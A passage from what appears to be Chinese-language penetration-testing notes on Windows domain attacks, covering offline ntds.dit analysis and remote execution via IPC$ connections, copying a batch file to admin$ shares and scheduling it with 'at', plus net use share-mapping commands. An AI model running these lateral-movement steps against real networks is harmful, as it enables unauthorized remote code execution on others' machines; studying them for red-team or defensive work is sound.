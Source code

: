 ![](./pic/5/18.jpg)  

这个只是离线分析了ntds.dit文件,其实也可以在线操作,=。=,不过感觉实战中遇到的会比较少,毕竟现在主流是win08为域控(以后这个倒不失为一个好方法)  

***
### 远程连接&&执行程序
##### at&schtasks
需要开启Task Scheduler服务  
经典流程：  
```
1、进行一个连接
net use \\10.10.24.44\ipc$ 密码 /user:账号

2、复制本地文件到10.10.24.44的share共享目录(一般是放入admin$这个共享地方(也就是c:\winnt\system32\)，或者c$，d$)
copy 4.bat \\10.10.24.44\share

3、查看10.10.24.44服务器的时间
net time \\10.10.24.44

4、添加at任务执行
at \\10.10.24.44 6:21 \\10.10.24.44\share\4.bat
这个6:21指的是上午的时间，如果想添加下午的，则是6.21PM

5、查看添加的所有at任务列表(如果执行了得，就不会显示)
at \\10.10.24.44
```
其他命令：  
```
查看所有连接
net use
删除连接
net use \\10.10.24.44\share /del

映射共享磁盘到本地
net use z: \\IP\c$ "密码" /user:"用户名"
删除共享映射
net use c: /del
net use * /del
```
